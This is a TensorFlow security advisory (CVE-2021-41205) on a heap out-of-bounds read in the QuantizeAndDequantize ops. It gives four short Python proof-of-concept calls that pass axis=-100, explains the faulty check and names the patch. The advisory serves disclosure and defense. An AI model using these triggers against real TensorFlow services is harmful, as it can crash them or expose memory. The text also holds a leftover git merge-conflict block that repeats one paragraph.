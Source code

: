 ## TFSA-2021-185: Heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*` ops

### CVE Number
CVE-2021-41205

### Impact
The [shape inference functions for the `QuantizeAndDequantizeV*` operations](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/array_ops.cc) can trigger a read outside of bounds of heap allocated array as illustrated in the following sets of PoCs:

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4Grad(
    gradients=[1.0,1.0],
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV3(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV2(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

<<<<<<< HEAD
In all of these cases, `axis` is a negative value different than the special value used for optional/unknown dimensions (i.e., -1). However, the code ignores the occurrences of these values:
=======
In all of these cases, `axis` is a negative value different than the special
value used for optional/unknown dimensions (i.e., -1). However, the code ignores
the occurrences of these values:
>>>>>>> upstream/master

```cc
...
if (axis != -1) {
  ...
  c->Dim(input, axis);
  ...
}
```

### Patches
We have patched the issue in GitHub commit [7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d](https://github.com/tensorflow/tensorflow/commit/7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
